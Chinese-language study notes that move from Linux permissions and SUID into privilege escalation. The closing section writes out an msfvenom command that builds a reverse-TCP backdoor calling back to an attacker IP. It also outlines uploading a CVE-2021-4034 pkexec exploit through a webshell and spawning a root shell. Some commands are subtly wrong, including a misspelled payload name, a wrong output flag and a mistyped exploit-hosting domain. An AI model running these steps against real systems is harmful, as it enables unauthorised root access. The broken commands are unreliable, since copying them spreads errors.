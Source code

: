 ## Linux
全程GNU/Linux, 是一种免费使用和自由传播的类UNIX操作系统, 是一个基于POSIX的所拥护, 多任务, 支持多线程和多CPU的操作系统, 能运行主要的Unix工具软件, 应用程序和网络协议. 支持32为和64位硬件. Linux集成了Unix以网络为核心的设计思想, 是一个性能稳定的多用户网络操作系统. Linux有上百种不同的发行版, 如基于社区开发的debian, archlinux, 和基于商业开发的RedHat Enterprise, SUSE, Oracle Linux等

### linux权限
当使用普通用户登录系统后可以发现无法进入一些目录和查看一些文件, 提示权限不够, 只有root用户才能读取和查看. 在Linux中存在多个用户, 多种用户, 他们分别工作时不会相互造成影响
- 权限提升: 利用提权漏洞, 不登录root用户, 拿到root用户的权限

#### 权限说明
- `drwxrwxrwx`, 分为三组rwx, 为`-`意为该组用户没有该权限
	- 第一组代表Owner权限, 缩写u
	- 第二组代表Group权限, 缩写g
	- 第三组代表Others的权限, 缩写o
	- r: Read, w: Write, x: eXecute
- ***root账户不受文件权限的读写限制, 执行权限受限制***
- 文件权限: 
	- r: 读取文件内容
	- w: 修改文件内容
	- x: 执行权限 (只对二进制文件有意义)
- 目录权限: 
	- r: 查看目录下的文件列表
	- w: 删除和创建目录下的文件
	- x: 可以cd进入目录, 能查看目录中的详细属性, 能访问目录中的文件内容
- 权限对应数字: r 读 4, w 写 2, x 执行 1
	- 使用chmod命令, 可以加减组合, 添加`-R` 递归修改
		- `chmod 677 1.py` 意为给u用户不加执行权限, 其它用户组授所有权限
		- `chmod +r 1.py` 给所有用户授读权限
		- `chmod u+r 1.py` 给u用户添加读权限 (缺省a代表所有用户)
	- 用户获取文件权限的顺序: 先看是否为所有者, 如果是, 则后面权限不看; 再看是否为所属组, 如果是, 则后面权限不看
- 一般只对目录加执行权限, 文件不加执行权限(有安全隐患)

#### suid权限
给一个用户**继承二进制程序所有者拥有的权限**, 如果一个文件具有suid权限, 则**所有者执行位为s**, 文件ls下表示为红色背景
- `ls -la /usr/bin/passwd` 查看对应文件权限, 写入密码的`/etc/shadow`命令只有root用户有权限, **但是passwd默认是suid命令**
- suid应用在二进制文件上, 可以利用以进行提权

#### chmod命令修改权限
- change the permissions mode of a file
- 改变文件或目录权限, 所在路径`/bin/chmod`

#### chown命令修改所有者权限
- change file ownership
- 改变文件或目录的所有者, 所在路径`/bin/chown`
- `chown [用户] [文件或目录]`

#### chgrp命令修改所属组权限
- change file group ownership, 改变文件或目录的所属组
- `chgrp [用户组] [文件或目录]`

### Linux权限提升
- 为获取在root目录下的资料, 提升用户权限为root
- 把webshell转移至目标机
	1. 向目标机生成webshell
	1. 生成linux的后门木马文件 `msfvenom -p linux/x64/peterpreter/reverse_tcp lhost=192.168.81.57 lport=9998 -f elf -e shell.elf`
	2. 使用webshell管理工具/msf getshell并授予执行权限, 执行上线
- 通过cve2021-4034提权
	1. [漏洞exp](https://gitgub.com/nikaiw/CVE-2021-4034/archive/refs/heads/master.zip) 通过webshell上传至目标机器
	2. 在msf输入shell进入连接机的交互系统
	3. `python3 -c 'import pty;pty.spawn("/bin/bash")'` 显示交互shell
	4. 对上传的文件赋予执行权限并执行
	5. id=root
- 利用/usr/bin下的pkexec文件的suid权限, 添加对应环境变量, 触发后反弹root
- `uname -a` 查看系统内核版本, 3.x还可以使用find提权